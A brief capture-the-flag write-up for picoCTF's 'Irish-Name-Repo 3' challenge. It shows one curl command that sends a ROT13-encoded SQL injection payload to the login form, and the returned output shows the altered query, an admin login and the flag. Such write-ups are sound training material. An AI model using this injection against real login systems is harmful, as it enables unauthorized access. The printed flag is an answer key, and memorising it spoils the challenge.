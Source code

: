 # Irish-Name-Repo 3

## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!

## Solucion
```bash
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/29132/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}</p>      
┌──(kali㉿kali)-[~]
└─$                  

```
picoCTF{3v3n_m0r3_SQL_06a9db19}
## Notas adicionales

## Referencias